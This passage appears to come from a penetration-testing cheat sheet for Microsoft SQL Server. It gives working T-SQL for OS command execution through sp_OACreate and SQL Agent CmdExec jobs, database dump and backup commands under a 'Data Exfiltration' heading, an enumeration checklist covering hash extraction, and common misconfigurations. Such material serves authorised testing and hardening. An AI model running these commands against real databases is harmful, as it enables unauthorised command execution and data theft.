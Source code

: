 ## Alternative Execution Methods

**If xp_cmdshell is blocked:**

**Using sp_OACreate:**
```sql
DECLARE @myshell INT;
EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT;
EXEC sp_oamethod @myshell, 'run', null, 'cmd /c "whoami > c:\temp\output.txt"';
```

**Using SQL Agent Jobs:**
```sql
USE msdb;
EXEC dbo.sp_add_job @job_name = 'test_job';
EXEC sp_add_jobstep @job_name = 'test_job', @step_name = 'test_step', @subsystem = 'cmdexec', @command = 'whoami > c:\temp\output.txt';
EXEC dbo.sp_add_jobserver @job_name = 'test_job';
EXEC dbo.sp_start_job N'test_job';
```

## Data Exfiltration

**Export database:**
```bash
mysqldump -h $IP -u username -p database_name > dump.sql
```

**Backup database:**
```sql
BACKUP DATABASE database_name TO DISK = 'c:\temp\database_backup.bak';
```

## Enumeration Checklist

- [ ] Anonymous access testing
- [ ] Default credentials testing
- [ ] User and permission enumeration
- [ ] Database and table discovery
- [ ] xp_cmdshell capability testing
- [ ] Linked server enumeration
- [ ] Impersonation privilege checking
- [ ] File read/write operations
- [ ] Hash extraction attempts
- [ ] Service account identification

## Common Misconfigurations

1. **Default 'sa' password** (blank or weak)
2. **xp_cmdshell enabled** with sysadmin access
3. **Excessive service account privileges**
4. **Linked server misconfigurations**
5. **Impersonation privileges** granted to low-privilege users
6. **SQL Server Agent** with high privileges
7. **SQL Authentication** instead of Windows Authentication
